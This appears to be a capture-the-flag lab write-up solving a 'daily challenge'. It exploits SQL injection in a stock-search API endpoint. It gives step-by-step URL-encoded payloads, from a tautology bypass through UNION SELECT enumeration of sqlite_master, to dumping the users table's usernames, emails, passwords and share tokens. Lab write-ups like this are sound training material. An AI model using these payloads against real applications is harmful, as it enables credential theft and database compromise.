

Daily challenge.
Hint: *Search for the best stocks.*

The vulnerability in this lab is SQL Injection, which lies in `/api/stocks/search?q=`.
In order to confirm it, I used apostrophe - `/api/stocks/search?q=1'`, which gave me `Database error` in the response.
After sending `GET` request in Burp Repeater to this endpoint with payload: `/api/stocks/search?q=3'+OR+1%3d1+--+-`, the response contains all available stocks.
In order to extract other databases I used `UNION SELECT` payload.
The `/api/stocks/search?q=3'+UNION+SELECT+NULL+,NULL,NULL,NULL,NULL,NULL,NULL,NULL--+-` gave me response with all database entries with reflected null values:
```
[{"id":null,"symbol":null,"name":null,"initial_price":null,"current_price":null,"description":null,"trend":null,"created_at":null}]
```
To extract table names:
`/api/stocks/search?q=3'+UNION+SELECT+name+,NULL,NULL,NULL,NULL,NULL,NULL,NULL+FROM+sqlite_master+WHERE+type%3d'table'--+-`
One of the extracted table names, which is the most interesting is `users`. So, I will focus on extracting it's entries.
To extract it's structure I used: `/api/stocks/search?q=3'+UNION+SELECT+sql+,NULL,NULL,NULL,NULL,NULL,NULL,NULL+FROM+sqlite_master+WHERE+type%3d'table'+AND+name%3d'users'--+-`, and the structure of `users` table is:
```
"CREATE TABLE users (\n    id INTEGER PRIMARY KEY AUTOINCREMENT,\n    username TEXT UNIQUE NOT NULL,\n    email TEXT UNIQUE NOT NULL,\n    password TEXT NOT NULL,\n    full_name TEXT,\n    balance_eur DECIMAL(15,2) DEFAULT 1000.00,\n    balance_usd DECIMAL(15,2) DEFAULT 0.00,\n    balance_gbp DECIMAL(15,2) DEFAULT 0.00,\n    role TEXT DEFAULT 'user',\n    is_portfolio_public INTEGER DEFAULT 0,\n    share_token TEXT,\n    created_at DATETIME DEFAULT CURRENT_TIMESTAMP\n  )"
```
The final payload to extract `users` table entries, I used: `/api/stocks/search?q=3'+UNION+SELECT+id+,username,email,password,full_name,role,share_token,NULL+FROM+users--+-` and the flag was present in the admins `initial_price` entry.
